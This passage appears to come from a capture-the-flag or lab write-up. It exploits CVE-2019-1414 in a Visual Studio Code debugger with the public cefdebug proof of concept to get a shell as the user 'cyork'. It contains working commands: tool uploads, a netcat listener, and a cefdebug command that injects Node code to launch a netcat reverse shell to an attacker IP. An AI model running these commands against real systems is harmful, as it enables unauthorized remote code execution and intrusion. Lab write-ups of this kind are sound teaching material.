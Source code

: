 After researching for a bit, we find out that there is an **RCE vulnerability** ([CVE-2019-1414](https://msrc.microsoft.com/update-guide/en-us/advisory/CVE-2019-1414)) in VSC related to its debugger, which is explained [here](https://iwantmore.pizza/posts/cve-2019-1414.html) and [here](https://bugs.chromium.org/p/project-zero/issues/detail?id=1944). There is also an [existing PoC](https://github.com/taviso/cefdebug), which includes [pre-compiled binaries](https://github.com/taviso/cefdebug/releases) and by following the steps outlined, we can achieve RCE as `cyork` (Figure 25).

{% tabs %}
{% tab title="1. Uplolad" %}
{% code overflow="wrap" %}
```powershell
# move to writable directory
cd C:\Windows\System32\spool\drivers\color
# upload executables
upload cefdebug.exe
upload nc64.exe
```
{% endcode %}
{% endtab %}

{% tab title="2. Start Listener" %}
{% code overflow="wrap" %}
```bash
# start listener on the attack host
nc -lvnp 1337
```
{% endcode %}
{% endtab %}

{% tab title="3. Exploit" %}
{% code overflow="wrap" %}
```powershell
# scan the local machine for CEF debuggers
.\cefdebug.exe
# send reverse shell command
.\cefdebug.exe --code "process.mainModule.require('child_process').exec('C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe 10.10.14.6 1337 -e powershell')" --url ws://127.0.0.1:26519/62fb7883-8db3-47e2-8caf-4495af6fc875
```
{% endcode %}
{% endtab %}
{% endtabs %}

<figure><img src="../../.gitbook/assets/multi_rce_cyork.png" alt=""><figcaption><p>Figure 25: Receiving a reverse shell as the user cyork.</p></figcaption></figure>
